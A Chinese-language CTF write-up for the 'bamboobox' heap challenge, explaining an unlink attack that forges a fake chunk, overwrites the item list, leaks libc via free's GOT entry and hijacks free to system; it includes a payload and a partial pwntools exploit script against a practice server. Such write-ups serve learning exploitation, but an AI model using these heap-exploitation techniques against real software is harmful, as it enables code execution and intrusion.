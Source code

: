 ```
    `}`
  `}`
```

然后输出数据的话是将所有数据输出，free chunk的话会将将itemlist李置零，且将chunk的内容置零。

这题可以用House Of Force来做，可以执行magic函数，但是flag又不在那个目录下，因此我们可以用UNlink来做。

首先我们先申请四块chunk，对编号为1的chunk1进行输入，伪造一块chunk，fd和bk分别指向这块地址-0x18和-0x10处，然后覆盖下一块chunk的pre_siez位和size位，把这块fake_chunk伪造成一块free掉的chunk，然后free chunk2，触发UNlink。

payload为<br><code>payload = p64(0) + p64(0x30) + p64(array + 0x18 - 0x18) + p64(array + 0x18 - 0x10)<br>
payload += 'a' * 0x10 + p64(0x30) + p64(0x90)</code>

此时itemlist的原本chunk1的地方，地址就变为了itemlist的地址，也就是说我们对chunk1进行修改，也就是对itemlist进行修改，我们可以将free函数的got表地址写入chunk0处，然后进行输出，就能够泄露出libc的基址了，然后得到system函数的真实地址，写入free函数的got表，free函数就被劫持为system函数了，即可getshell。

exp:

```
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

# io = process('./bamboobox')
io = remote('node3.buuoj.cn', 25016)
elf = ELF('./bamboobox')
libc = ELF('./libc-2.23.so')

free_got = elf.got['free']

def show():
    io.sendlineafter('Your choice:', '1')

def add(size, content):
    io.sendlineafter('Your choice:', '2')
    io.sendlineafter('Please enter the length of item name:', str(size))
    io.sendafter('Please enter the name of item:', content)

def edit(index, size, content):
    io.sendlineafter('Your choice:', '3')
    io.sendlineafter('Please enter the index of item:', str(index))
    io.sendlineafter('Please enter the length of item name:', str(size))
    io.sendafter('Please enter the new name of the item:', content)

def delete(index):
    io.sendlineafter('Your choice:', '4')
    io.sendafter('Please enter the index of item:', str(index))

array = 0x6020C0

add(0x30, 'aaaa')  # 0
add(0x30, 'aaaa')  # 1
add(0x80, 'aaaa')  # 2
add(0x20, '/bin/sh')  # 3

payload = p64(0) + p64(0x30) + p64(array + 0x18 - 0x18) + p64(array + 0x18 - 0x10)
payload += 'a' * 0x10 + p64(0x30) + p64(0x90)

edit(1, len(payload), payload)

delete(2)
# gdb.attach(io)
edit(1, 0x100, p64(0x20) + p64(free_got))#1

```